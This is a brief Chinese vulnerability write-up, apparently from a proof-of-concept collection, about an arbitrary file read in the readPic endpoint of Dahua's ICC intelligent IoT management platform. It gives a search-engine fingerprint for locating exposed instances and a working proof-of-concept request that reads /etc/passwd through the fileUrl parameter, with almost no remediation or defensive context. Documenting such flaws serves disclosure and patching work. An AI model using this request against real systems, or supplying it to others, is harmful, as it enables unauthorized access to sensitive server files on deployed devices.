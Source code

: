 # 大华 ICC智能物联综合管理平台 readPic 任意文件读取漏洞

## 漏洞描述

大化 ICC智能物联综合管理平台 readPic 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件

## 漏洞影响

大华 ICC智能物联综合管理平台

## 网络测绘

```
body="*客户端会小于800*"
```

## 漏洞复现

登陆页面

![image-20231116141833821](images/image-20231116141833821.png)

poc

```
/evo-apigw/evo-cirs/file/readPic?fileUrl=file:/etc/passwd
```

![image-20231116141852063](images/image-20231116141852063.png)